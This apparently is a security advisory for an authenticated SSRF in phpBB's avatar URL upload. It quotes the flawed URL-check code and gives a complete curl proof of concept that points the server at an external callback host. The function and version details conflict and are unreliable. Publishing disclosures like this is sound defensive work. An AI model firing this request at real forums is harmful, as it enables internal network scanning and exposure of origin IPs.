


# SSRF vulnerability in `process_form` Function of `phpbb/avatar/driver/upload.php` File (phpBB)

## 0x01 Affected version

vendor: https://github.com/phpbb/phpbb

version: Versions prior to 3.3.11 are vulnerable.

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `checkForSelfUpdate` function of phpBB 3.3.11 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `avatar_upload_url` parameter. We should note that the vulnerability requires authentication before it can be triggered. The vulnerability is a bypass of the previous patch CVE-2017-1000419.

This vulnerability can lead to various harms, such as the two most common scenarios:

1. If developers use CDN to conceal the real IP of their deployed websites, attackers can exploit this vulnerability to make requests to their own servers, thereby obtaining the real IP. Once the real IP is obtained, attackers can scan the developer's server to discover other potential vulnerabilities.

2. This vulnerability can be used to perform service discovery on both internal and external networks, as well as to retrieve images that are usually restricted to local access. Although in phpBB versions after 3.2.1, developers use regular expressions to restrict users from making requests to specified IPs, limiting access to local image files. However, this defense can be bypassed through DNS pinging[1]. 

The vulnerable code is located in the `process_form()` function in the `phpbb/avatar/driver/upload.php` file. Because the function does not perform sufficient checksumming on the `avatar_upload_url` parameter, the tainted variable into the tainted function `curl_exec` at the file `vendor/guzzlehttp/guzzle/src/Handler/CurlHandler.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `avatar_upload_url` parameter, eventually leading to an SSRF vulnerability.

Code for the location of the tainted inflow

file path: phpbb/avatar/driver/upload.php

```php
			if (!preg_match('#^(http|https|ftp)://(?:(.*?\.)*?[a-z0-9\-]+?\.[a-z]{2,4}|(?:\d{1,3}\.){3,5}\d{1,3}):?([0-9]*?).*?\.('. implode('|', $this->allowed_extensions) . ')$#i', $url) ||
				preg_match('@^(http|https|ftp)://[^/:?#]+:[0-9]+[/:?#]@i', $url) ||
				preg_match('#^(http|https|ftp)://(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])#i', $url) ||
				preg_match('#^(http|https|ftp)://(?:(?:(?:[\dA-F]{1,4}:){6}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:::(?:[\dA-F]{1,4}:){0,5}(?:[\dA-F]{1,4}(?::[\dA-F]{1,4})?|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:):(?:[\dA-F]{1,4}:){4}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,2}:(?:[\dA-F]{1,4}:){3}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,3}:(?:[\dA-F]{1,4}:){2}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,4}:(?:[\dA-F]{1,4}:)(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,5}:(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,6}:[\dA-F]{1,4})|(?:(?:[\dA-F]{1,4}:){1,7}:)|(?:::))#i', $url))
			{
				$error[] = 'AVATAR_URL_INVALID';
				return false;
			}

			$file = $upload->handle_upload('files.types.remote', $url);
```

file path: vendor/guzzlehttp/guzzle/src/Handler/CurlHandler.php

```php
    public function __invoke(RequestInterface $request, array $options)
    {
        if (isset($options['delay'])) {
            usleep($options['delay'] * 1000);
        }

        $easy = $this->factory->create($request, $options);
        curl_exec($easy->handle);
        $easy->errno = curl_errno($easy->handle);

        return CurlFactory::finish($this, $easy, $this->factory);
    }
```

The input that can cause this SSRF vulnerability is located in the front-end's input box there.




The following is an example of exploiting the vulnerability:




PoC:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.147' -H $'Content-Length: 940' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://172.16.119.147' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryREgYWxAV8MyABrhk' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/phpBB3310/ucp.php?i=ucp_profile&mode=avatar' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'Connection: close' \
    -b $'NVSID_9c6f801a_ba1ab2cde29d074c6542684645423000=hhbl4e47rc1fhvmbknbho7h58b; PHPSESSID=hhbl4e47rc1fhvmbknbho7h58b; phpbb3_5grhs_u=2; phpbb3_5grhs_k=qe2ahdbw1bwc61mw; phpbb3_5grhs_sid=bc58556a8c6c46e9155c4f21e9dc0e00' \
    --data-binary $'------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"avatar_driver\"\x0d\x0a\x0d\x0aavatar_driver_upload\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\x0d\x0a\x0d\x0a6144\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"avatar_upload_file\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"avatar_upload_url\"\x0d\x0a\x0d\x0ahttp://xabp6p9t4if8803r0gy9wmckdbj37tvi.oastify.com/ssrftest.jpg\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"submit\"\x0d\x0a\x0d\x0aSubmit\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"creation_time\"\x0d\x0a\x0d\x0a1710075132\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"form_token\"\x0d\x0a\x0d\x0ad95e6804f75d37c1777941c73bf6da3ae010d165\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk--\x0d\x0a' \
    $'http://172.16.119.147/phpBB3310/ucp.php?i=ucp_profile&mode=avatar'
```


## 0x03 Mitigation

 Before sending a request, it's recommended to verify the IP address of the corresponding domain (thus rejecting requests to domains that resolve to 127.0.0.1), or use a allow-list to restrict which domains can be accessed.

## 0x04 Reference

[1] https://github.com/cujanovic/SSRF-Testing/blob/master/README.md

## 0x05 Acknowledgement

z3


